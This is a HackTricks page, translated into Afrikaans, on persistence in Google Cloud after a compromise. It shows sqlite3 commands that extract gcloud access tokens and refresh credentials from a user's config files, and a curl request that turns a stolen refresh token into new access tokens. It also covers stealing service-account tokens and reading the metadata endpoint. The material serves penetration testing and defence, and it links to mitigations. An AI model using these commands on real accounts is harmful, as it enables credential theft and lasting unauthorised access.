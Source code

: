 # GCP - Nie-svc Volharding

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>

Hierdie is nuttige tegnieke sodra jy op een of ander manier sekere GCP-legitimasie of 'n masjien wat in 'n GCP-omgewing loop, gekompromitteer het.

## Token Ontvoering

### Geauthentiseerde Gebruiker Tokens

Om die **huidige token** van 'n gebruiker te kry, kan jy hardloop:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

Kyk op hierdie bladsy hoe om **hierdie token direk te gebruik met gcloud**:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

Om die besonderhede te kry om 'n nuwe toegangstoken te **genereer**, hardloop: 

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

Dit is ook moontlik om hernuwingsleutels te vind in **`$HOME/.config/gcloud/application_default_credentials.json`** en in **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`**.

Om 'n nuwe verfriste toegangskode te kry met die **hernuwingsleutel**, kliënt-ID, en kliënt-geheim hardloop: 

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

Die geldigheid van die hernuwingsleutels kan bestuur word in **Admin** > **Sekuriteit** > **Google Cloud-sessiebeheer**, en dit is standaard op 16 uur ingestel, alhoewel dit op nooit verval gestel kan word:

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### Outeursvloei

Die outentiseringsvloei wanneer iets soos `gcloud auth login` gebruik word, sal 'n venster in die blaaier oopmaak en nadat al die omvang aanvaar is, sal die blaaier 'n versoek soos hierdie een stuur na die http-poort wat oopgemaak is deur die instrument:
```
/?state=EN5AK1GxwrEKgKog9ANBm0qDwWByYO&code=4/0AeaYSHCllDzZCAt2IlNWjMHqr4XKOuNuhOL-TM541gv-F6WOUsbwXiUgMYvo4Fg0NGzV9A&scope=email%20openid%20https://www.googleapis.com/auth/userinfo.email%20https://www.googleapis.com/auth/cloud-platform%20https://www.googleapis.com/auth/appengine.admin%20https://www.googleapis.com/auth/sqlservice.login%20https://www.googleapis.com/auth/compute%20https://www.googleapis.com/auth/accounts.reauth&authuser=0&prompt=consent HTTP/1.1
```
Dan sal gcloud die staat en kode gebruik met 'n paar hardgekoppelde `client_id` (`32555940559.apps.googleusercontent.com`) en **`client_secret`** (`ZmssLNjJy2998hD4CTg2ejr2`) om die **finale verfris token data** te kry.

{% hint style="danger" %}
Let daarop dat die kommunikasie met localhost in HTTP is, so dit is moontlik om die data te onderskep om 'n verfris token te kry, maar hierdie data is net een keer geldig, so dit sal nutteloos wees, dit is makliker om net die verfris token uit die lêer te lees.
{% endhint %}

### Diensrekeninge

Net soos met geauthentiseerde gebruikers, as jy die **privaatsleutel-lêer van 'n diensrekening kan kry**, sal jy dit **gewoonlik so lank as wat jy wil kan benader**.\
Maar, as jy die **OAuth-token** van 'n diensrekening steel, kan dit selfs meer interessant wees, want, selfs al is hierdie tokens standaard net vir 'n uur nuttig, as die **slagoffer die privaat API-sleutel verwyder, sal die OAuth-token nog steeds geldig wees tot dit verval**.

### Metadata

Vanzelfsprekend, solank as wat jy binne 'n masjien hardloop in die GCP-omgewing, sal jy die **diensrekening wat aan daardie masjien geheg is, kan benader deur die metadata-eindpunt te kontak** (let daarop dat die Oauth-tokens wat jy in hierdie eindpunt kan benader, gewoonlik beperk word deur scopes).

### Regstellings

Sommige regstellings vir hierdie tegnieke word verduidelik in [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

## Verwysings

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS-familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFT's**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
